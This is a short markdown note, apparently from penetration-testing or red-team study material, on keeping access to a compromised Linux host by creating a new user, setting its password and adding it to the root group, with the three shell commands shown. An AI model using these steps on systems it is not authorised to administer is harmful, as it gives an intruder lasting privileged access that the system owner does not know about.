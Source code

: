 # Establishing Persistence by creating a New User

Another method of establishing persistence is by creating a new user and adding them to the ROOT group. <br><br>
By doing this, we can later login as this user with ROOT privileges and stay persistent in the network.

```
useradd -m "NEW USER" -s /bin/bash 
passwd "NEW USER"

#Add new user to ROOT group
usermod -aG root "NEW USER"
```
